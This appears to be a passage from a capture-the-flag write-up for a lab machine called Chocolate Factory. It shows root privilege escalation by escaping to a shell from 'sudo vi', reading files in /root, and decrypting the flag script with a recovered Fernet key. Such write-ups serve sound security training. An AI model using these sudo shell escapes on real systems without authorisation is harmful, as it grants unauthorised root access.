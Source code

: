 OKAY, so we have `vi` that we can execute with sudo privs and no passwords. It's quite simple to use `vi` to get the root flag:
```shell-session
charlie@chocolate-factory:/home/charlie$ sudo vi

<VI COMMANDS :P>
:!whoami
root

:!ls /root
root.py

:!cat /root/root.py
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

We can use the key from the first question to decode this... _encrypted mess_:
```py
from cryptography.fernet import Fernet
import pyfiglet
key=b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
f=Fernet(key)
encrypted_mess='gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

Running the program gets us the root flag:
```shell-session
$ python3 root_program.py
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                             
  ___                              ___   __  
 / _ \__      ___ __   ___ _ __   / _ \ / _| 
| | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
| |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
 \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                             

  ____ _                     _       _       
 / ___| |__   ___   ___ ___ | | __ _| |_ ___ 
| |   | '_ \ / _ \ / __/ _ \| |/ _` | __/ _ \
| |___| | | | (_) | (_| (_) | | (_| | ||  __/
```